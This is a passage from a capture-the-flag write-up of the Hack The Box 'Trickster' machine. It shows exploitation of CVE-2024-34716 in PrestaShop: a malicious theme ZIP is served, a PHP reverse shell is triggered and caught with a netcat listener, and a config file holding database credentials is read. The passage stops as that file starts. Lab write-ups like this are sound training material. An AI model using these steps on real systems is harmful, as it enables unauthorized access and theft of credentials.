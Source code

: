 ```
  File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'ncat'
```

### Python Web Server

The target requested the ZIP file from the web server proving there is an automated script simulating an end user clicking the file. This looks promising.

```
┌──(kali㉿kali)-[~/hackthebox/trickster/CVE-2024-34716]
└─$ python3 -m http.server 80                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.34 - - [22/Sep/2024 19:20:09] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```

### Manually Triggering PHP Reverse Shell

I opened the below URL in Firefox to trigger the reverse shell.

`http://shop.trickster.htb/themes/next/reverse_shell.php`

# Reverse Shell Obtained (www-data)

A successful call back which established a connection. Reverse shell obtained as the `www-data` user. 

```
┌──(kali㉿kali)-[~/hackthebox/trickster]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.34] 50304
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 23:20:24 up  2:33,  0 users,  load average: 0.19, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

# PrestaShop Database Configuration

After looking around the file system for a while I eventually discovered the PrestaShops installation directory. Within that directory was a configuration file which contained database credentials.

```
www-data@trickster:~/prestashop/app/config$ ls
ls
addons			config_legacy_test.yml	routing.yml
api_platform		config_prod.yml		routing_dev.yml
config.yml		config_test.yml		security_dev.yml
config_dev.yml		doctrine.yml		security_prod.yml
config_legacy.yml	parameters.php		security_test.yml
config_legacy_dev.yml	parameters.yml		services.yml
config_legacy_prod.yml	parameters.yml.dist	set_parameters.php
www-data@trickster:~/prestashop/app/config$ cat parameters.php
cat parameters.php
<?php return array (
  'parameters' => 
```